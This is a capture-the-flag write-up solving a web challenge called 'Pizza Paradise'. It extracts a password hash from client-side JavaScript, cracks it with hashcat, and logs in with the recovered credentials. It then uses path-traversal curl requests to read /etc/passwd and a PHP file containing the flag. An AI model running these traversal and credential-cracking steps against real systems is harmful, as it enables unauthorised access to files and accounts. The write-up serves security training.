


# Pizza Paradise [395 Solves]

## Description

> Something weird going on at this pizza store!!
>
> `https://pizzaparadise.ctf.intigriti.io`

No attachment.

## Flag

INTIGRITI{70p_53cr37_m15510n_c0mpl373}

## Solution

In robots.txt, `/secret_172346606e1d24062e891d537e917a90.html` is found.

```console
$ curl https://pizzaparadise.ctf.intigriti.io/robots.txt
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```

The `/secret_172346606e1d24062e891d537e917a90.html` URL path is a login page.



The page has an /assets/js/auth.js JavaScript.

```javascript
// /assets/js/auth.js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```

The validPasswordHash can be cracked.

```console
$ hashcat -m 1400 --quiet $HASH /usr/share/wordlists/rockyou.txt
91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac:intel420
```

Login the page with `agent_1337:intel420` credential, it redirects to `/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php`.



Clicked Download button, a request to `/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=%2Fassets%2Fimages%2Ftopsecret2.png` started.
The `download` query parameter is used and the file is downloaded by file path so it seems that it has Path Traversal vulnerability.

After some trial and error, /etc/passwd could be downloaded.

```console
$ curl -G https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php --data-urlencode 'download=/assets/images/../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Downloaded topsecret_a9aedc6c39f654e55275ad8e65e316b3.php file, I can get the flag.

```console
$ curl -G https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php --data-urlencode 'download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php'
<?php

$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';

(snip)
```
